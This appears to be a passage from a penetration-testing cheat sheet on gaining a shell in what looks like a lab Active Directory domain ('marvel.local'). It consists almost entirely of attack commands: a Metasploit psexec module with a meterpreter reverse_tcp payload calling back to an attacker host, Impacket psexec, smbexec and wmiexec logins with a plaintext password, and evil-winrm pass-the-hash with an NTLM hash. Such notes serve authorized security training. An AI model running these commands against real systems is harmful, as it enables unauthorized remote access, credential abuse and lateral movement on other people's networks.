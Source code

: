 - - -
## Gaining Shell : 
( **This is not the end there are more** )

#### Metasploit : 

```sh
# msfconsole 
msf5> search psexec 
msf5> use exploit/windows/smb/psexec 
msf5> set RHOSTS 
msf5> set SMBDomain marvel.local 
msf5> set SMBPass P@$$w0rd 
msf5> set SMBUser Thor 
msf5> set payload windows/x64/meterpreter/reverse_tcp 
msf5> set LHOST 10.8.78.38 
msf5> exploit 
```

Sometimes it will not work in first time, try again few times : 

```sh
msf5> show targets 
msf5> set target 2 
msf5> run 
```

#### Psexec : 

```python
psexec.py marvel.local/Thor:P@$$w0rd@10.10.10.10 
```

#### Smbexec : 

```python
smbexec.py marvel.local/Thor:P@$$w0rd@10.10.10.10 
```

#### Wmiexec : 

```python
wmiexec.py marvel.local/Thor:P@$$w0rd@10.10.10.10 
```

#### Evil-Winrm :  

```python
evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.162.183
```

